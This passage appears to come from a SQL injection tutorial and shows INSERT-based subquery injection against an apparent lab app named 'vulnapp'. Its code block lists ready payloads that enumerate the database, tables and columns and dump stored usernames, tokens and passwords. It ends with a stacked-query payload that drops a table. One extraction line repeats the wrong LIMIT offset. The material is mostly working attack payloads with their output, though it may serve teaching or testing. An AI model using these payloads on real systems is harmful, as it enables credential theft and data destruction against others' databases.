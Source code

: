 #### Case 3: App displays only one VARCHAR column that comes after the column that the user controls

We can `directly` exfiltrate the data through `sub query injection` technique on that `displayed` column.

```
# target of extraction: token => INT column of tbl_secret()
# table used in the query: tbl_post02()
# structure: `comment` => VARCHAR, pin => INT, `age` => INT, user => VARCHAR
# attacker controls the comment column
# only user column is displayed in the UI

query = INSERT INTO tbl_post02() VALUES('hello', 100, 22, 'anonymous');

[+] enumerate database name
============================
payload = blah', 0, 0, (SELECT database()))# => vulnapp

[+] extract all tables belongs to that database by iterating the OFFSET field
==============================
payload = blah', 0, 0, (SELECT table_name FROM information_schema.tables where table_schema='vulnapp' LIMIT 0,1))# => tbl_post02
payload = blah', 0, 0, (SELECT table_name FROM information_schema.tables where table_schema='vulnapp' LIMIT 1,1))# => tbl_post01
payload = blah', 0, 0, (SELECT table_name FROM information_schema.tables where table_schema='vulnapp' LIMIT 2,1))# => tbl_secret
payload = blah', 0, 0, (SELECT table_name FROM information_schema.tables where table_schema='vulnapp' LIMIT 3,1))# => tbl_post03
payload = blah', 0, 0, (SELECT table_name FROM information_schema.tables where table_schema='vulnapp' LIMIT 4,1))# => error / none (implies row does not exist)

[+] extract all columns belongs to a particular table (for example - tbl_secret)
===============================
payload = blah', 0, 0, (SELECT column_name FROM information_schema.columns where table_schema='vulnapp' AND table_name = 'tbl_secret' LIMIT 0,1))# => user
payload = blah', 0, 0, (SELECT column_name FROM information_schema.columns where table_schema='vulnapp' AND table_name = 'tbl_secret' LIMIT 1,1))# => token
payload = blah', 0, 0, (SELECT column_name FROM information_schema.columns where table_schema='vulnapp' AND table_name = 'tbl_secret' LIMIT 2,1))# => password
payload = blah', 0, 0, (SELECT column_name FROM information_schema.columns where table_schema='vulnapp' AND table_name = 'tbl_secret' LIMIT 3,1))# => error / none

[+] extract all entries of tbl_secret
=====================================
payload = blah', 0, 0, (SELECT CONCAT(user, '=', CONVERT(token, CHAR), '=', password) FROM tbl_secret LIMIT 0,1))# => admin=777=abc
payload = blah', 0, 0, (SELECT CONCAT(user, '=', CONVERT(token, CHAR), '=', password) FROM tbl_secret LIMIT 1,1))# => ravi=101=xyz
payload = blah', 0, 0, (SELECT CONCAT(user, '=', CONVERT(token, CHAR), '=', password) FROM tbl_secret LIMIT 0,1))# => error / none

# stack query:
==============
it means when two or more queries are queued to be executed by a database one after another in the same session. It is also depends on the programming language.
[+] allowed => MySQL: asp, PostgreSQL: asp, php, python, MS SQL: asp

[+] drop a table(i.e tbl_post03) if stacked query is allowed by the underlying language
=======================================================================================
payload = blah', 0, 0, (SELECT version())); drop table tbl_post03;#
```
